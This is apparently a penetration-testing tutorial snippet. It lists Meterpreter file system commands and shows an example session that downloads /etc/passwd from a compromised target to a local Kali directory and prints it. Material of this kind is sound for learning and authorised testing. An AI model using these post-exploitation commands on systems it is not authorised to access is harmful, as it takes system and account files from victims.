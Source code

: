 Meterpreter file system commands

```
meterpreter > help
...
Stdapi: File system Commands
============================

    Command       Description
    -------       -----------
    cat           Read the contents of a file to the screen
    cd            Change directory
    checksum      Retrieve the checksum of a file
    chmod         Change the permissions of a file
    cp            Copy source to destination
    del           Delete the specified file
    dir           List files (alias for ls)
    download      Download a file or directory
    edit          Edit a file
    getlwd        Print local working directory
    getwd         Print working directory
    lcat          Read the contents of a local file to the screen
    lcd           Change local working directory
    lls           List local files
    lpwd          Print local working directory
    ls            List files
    mkdir         Make directory
    mv            Move source to destination
    pwd           Print working directory
    rm            Delete the specified file
    rmdir         Remove directory
    search        Search for files
    upload        Upload a file or directory
...   
```

Commands pre-fixed with `l` are executed on local box. 

Change local directory and download **/etc/passwd** from the target machine

```hlt:1,3,6,11
meterpreter > lcd /home/kali/Downloads

meterpreter > lpwd
/home/kali/Downloads

meterpreter > download /etc/passwd
[*] Downloading: /etc/passwd -> /home/kali/Downloads/passwd
[*] Downloaded 1.74 KiB of 1.74 KiB (100.0%): /etc/passwd -> /home/kali/Downloads/passwd
[*] download   : /etc/passwd -> /home/kali/Downloads/passwd

meterpreter > lcat /home/kali/Downloads/passwd
root:x:0:0:root:/root:/bin/bash
```
